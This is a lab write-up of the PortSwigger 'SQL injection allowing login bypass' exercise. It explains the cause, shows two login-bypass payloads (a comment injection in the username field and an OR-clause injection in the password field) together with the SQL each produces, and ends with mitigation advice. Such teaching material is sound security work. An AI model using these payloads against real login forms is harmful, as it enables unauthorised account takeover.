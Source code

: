 # SQL injection vulnerability allowing login bypass

![Lab banner – PortSwigger Apprentice level](1.png)

---


## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection vulnerability *allowing login bypass*,” we proved that an attacker can sign in as the **administrator** without knowing the password.
The root cause is classic: the application concatenates raw user input into a SQL `WHERE` clause and sends it straight to the database. By injecting a tiny fragment of SQL, we neutralised the password check and gained privileged access.

---

# Description

![Lab banner – PortSwigger Apprentice level](2.png)

---

## Why This Matters to You

* **Total account takeover:** Attackers can jump straight into high-privilege accounts and perform any action those accounts allow.
* **Business-logic defeat:** All downstream controls that rely on authentication (audit trails, personalisation, billing rules, etc.) instantly lose integrity.
* **Reputational & regulatory risk:** Compromised admin accounts often lead to data-privacy breaches and service defacement—both carry hefty legal and PR consequences.

---

## Step-by-Step Walk-Through

| # | What we did (attacker’s input)                                                          | Intended SQL built by the app                                                               | What actually happens & why                                                                                                       |
| - | --------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Baseline login test** — `administrator / xxx`                                         | `SELECT * FROM users WHERE username='administrator' AND password='xxx'`                     | Fails (as expected).                                                                                                              |
| 2 | **Username-field comment injection** — `administrator'--`                               | `SELECT * FROM users WHERE username='administrator'-- ' AND password='xxx'`                 | The `--` turns the rest of the line into a comment, **removing the password check**. We are logged in as admin.                   |
| 3 | **Password-field OR-clause injection** — password set to `' OR username='administrator` | `SELECT * FROM users WHERE username='whatever' AND password='' OR username='administrator'` | The always-true second condition (`username='administrator'`) is evaluated; the first half can be anything. Admin access granted. |

> *(Both payloads must be URL-encoded when sent through a proxy like Burp Suite; browsers handle this automatically in the normal form.)*

---

## Observable Output

| Test                                                | Visible result                         | What it proved                          |
| --------------------------------------------------- | -------------------------------------- | --------------------------------------- |
| Baseline credentials                                | “Login failed”                         | Normal operation.                       |
| Username comment (`administrator'--`)               | Dashboard appears as **administrator** | Password check bypassed.                |
| Password OR clause (`' OR username='administrator`) | Same administrator dashboard           | Alternate vector confirms vulnerability |

---

## Mitigation Guidance

1. **Use parameterised queries / prepared statements** so user input never alters SQL structure.
2. **Apply least-privilege DB accounts**—the web app should not connect with an account that can read all columns in `users`.
3. **Add server-side input validation** and centralised query-escaping libraries; avoid hand-rolled concatenation.
4. **Deploy a Web Application Firewall (WAF)** with tuned rules for SQLi, but treat it only as a compensating control.

---

## Conclusion

A single inline comment (`--`) or `OR` condition was enough to hijack the administrator session. Any real-world system with this flaw would be one click away from a full breach. Prioritise code review and prepared-statement refactoring immediately.
